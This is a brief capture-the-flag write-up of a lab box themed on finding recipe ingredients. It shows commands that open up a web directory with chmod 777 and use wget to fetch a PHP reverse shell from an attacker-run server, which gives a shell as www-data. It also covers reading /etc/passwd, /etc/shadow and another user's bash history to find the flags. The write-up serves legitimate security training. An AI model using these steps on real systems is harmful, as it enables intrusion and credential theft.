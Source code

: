 
---
## Need a new plan
So, my plan was to upload a **php-reverse-shell.php** from *PenTestMonkey* but had to in a roundabout way. 

Finally was able to change permissions on the ./assets directory
```
sudo chmod 777 ./assets
```

Then upload the **shell.php** file from a python simple server:
```
wget http://10.9.1.154:8080/shell.php -O ./assets/shell.php
```

Yay! It worked: reverse shell as user **www-data**


---
# Linux Enum

Ok... so it was just some poking around. was doing normal enum (/etc/passwd and /etc/shadow) no hashes, but noticed another user **ubuntu**.
Moved into the **ubuntu** users home directory and used **cat** to read their bash history:
```
www-data@ip-10-10-56-251:/home/ubuntu$ *sudo cat .bash_history* 
ll
sudo apt-get install apache2
ls
ls -la
exit
3rd ingredients: fleeb juice
find / -name php.ini
sudo find / -name php.ini
sudo rm -rf /var/lib/php/session/* 
cat /etc/php/7.0/fpm/php.ini
cat /etc/php/7.0/fpm/php.ini | grep session
cd /var/lib/php/sessions
ls
sudo ls
sudo rm -rf sess_n16aanckg2ifmk12io64o1kfa2
sudo ls
```

Gives us the third ingredient **fleeb juice**

However, I know where the second ingredient is stored, but haven't accessed it yet. Perform a find command to locate and then read.
```
lww-data@ip-10-10-56-251:/home/ubuntu$ *find / -type f -iname second* 2> /dev/null* 
/home/rick/second ingredients
/usr/share/doc/apache2/examples/secondary-init-script
/usr/lib/x86_64-linux-gnu/perl/5.22.1/Time/Seconds.pm
www-data@ip-10-10-56-251:/home/ubuntu$ *cat /home/rick/second\ ingredients 
1 jerry tea
```

So, no real Privesc required.
